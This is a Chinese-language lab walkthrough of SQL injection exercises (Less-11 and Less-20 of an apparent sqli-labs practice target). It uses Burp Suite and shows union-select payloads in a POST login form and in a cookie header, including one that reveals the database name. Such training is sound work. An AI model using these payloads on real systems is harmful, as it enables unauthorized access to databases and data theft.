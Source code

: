 # SQL注入靶场案例练习

### Less-11 POST - Error Based - Single quotes- String (基于错误的POST型单引号字符型注入)

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/248050e80cb94ba4819ece5c9a45072d.png)

**用burpsuit，抓包修改参数**

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/5a2399e3e7a0467abd0dab8e36ad9550.png)

联合查询union select测试payload

uname=admin' union select 1,2  --+&passwd=admin&submit=Submit

点击提交，通过burp suite抓取到post请求数据包

![image-20240715172931557](3.3SQL注入靶场案例练习/image-20240715172931557.png)	

修改并放行

![image-20240715173044516](3.3SQL注入靶场案例练习/image-20240715173044516.png)	

于是确认出有两个回显点

![image-20240715173109807](3.3SQL注入靶场案例练习/image-20240715173109807.png)	

爆库payload

uname=-admin' union select 1,database() --+&passwd=admin&submit=Submit

通过该sql注入，可以得知该网站所使用的数据库是security

![image-20240715173332950](3.3SQL注入靶场案例练习/image-20240715173332950.png)	

### **Less-20** POST - Cookie injections - Uagent field  - Error based (基于错误的cookie头部POST注入)

由于第20关，对post请求的数据进行了魔术引号处理，使得难以进行sql注入，于是可以通过cookie注入尝试绕过魔术引号。

单引号，报错型，cookie型注入。

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/5f681aa84f7144c5aa6471c997b61896.png)

存在魔术引号

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/7970543bbc6a4225a7479a1e73d412c1.png)

直接cookie注入，进行绕过

Cookie: uname=-admin' union select 1,2,database()--+

使用cookie进行注入

![image-20240715214309936](3.3SQL注入靶场案例练习/image-20240715214309936.png)	

于是通过cookie注入可以查看到使用的数据库名字。

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/4240a5acf9ed49ac8326cdd95dc252d7.png)
